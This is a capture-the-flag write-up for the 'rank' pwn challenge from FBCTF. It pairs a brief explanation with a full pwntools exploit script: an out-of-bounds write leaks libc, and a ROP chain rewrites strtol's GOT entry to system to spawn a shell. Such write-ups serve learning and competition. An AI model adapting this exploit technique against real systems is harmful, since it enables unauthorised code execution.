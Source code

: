 ## 494 Pwn / rank

It is array out of bound again, but we can only write 32-bit integer which will be signed extended to 64-bit integer, which means that address like `0x7fxxxxxxxxxx` cannot be written. My approach is to use `strtol`, which can give 64-bit control of `rax`, then use gadget `mov [xxx], rax` to rewrite got table of `strtol` to `system`, so we can get shell.

```python
from pwn import *
g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./r4nk")
	gdb.attach(sh)
else:
	sh = remote("challenges.fbctf.com", 1339)

sh.recvuntil("> ")

def rank(idx, val, payload=""):
	sh.sendline('2')
	sh.recvuntil("t1tl3> ")
	sh.send(str(idx).ljust(0x20, '\x00') + payload)
	sh.recvuntil("r4nk> ")
	sh.send(str(val) + '\x00')
	sh.recvuntil("> ")

def show(idx):
	sh.sendline('1')
	sh.recvuntil("%i. " % idx)
	ret = sh.recvuntil('\n')
	sh.recvuntil("> ")
	return ret[:-1]

payload_addr = 0x602120
rank(0, (payload_addr - 0x602080) / 8, p64(0x602018))
libc_addr = u64(show(0) + '\x00\x00') - e.symbols["write"]
print hex(libc_addr)

pop_rbx_rbp = 0x400921
get_long = 0x4007B0
strtol = 0x400610
strtol_got = 0x602040
pop_rdi = 0x400b43
ret = 0x400ACD
rop = []
rop.append(pop_rdi)
rop.append(payload_addr)
rop.append(strtol) # fully control rax
rop.append(pop_rbx_rbp)
rop.append(0)
rop.append(strtol_got)
rop.append(0x400918) # [strtol_got] = rax
rop += [0] * 3
rop.append(ret)
rop.append(get_long) # system("/bin/sh")

for i in xrange(len(rop)):
	rank(0x88 / 8 + i, rop[i], str(libc_addr + e.symbols["system"]))

sh.sendline('3')
sh.recvuntil("g00dBy3\n")
```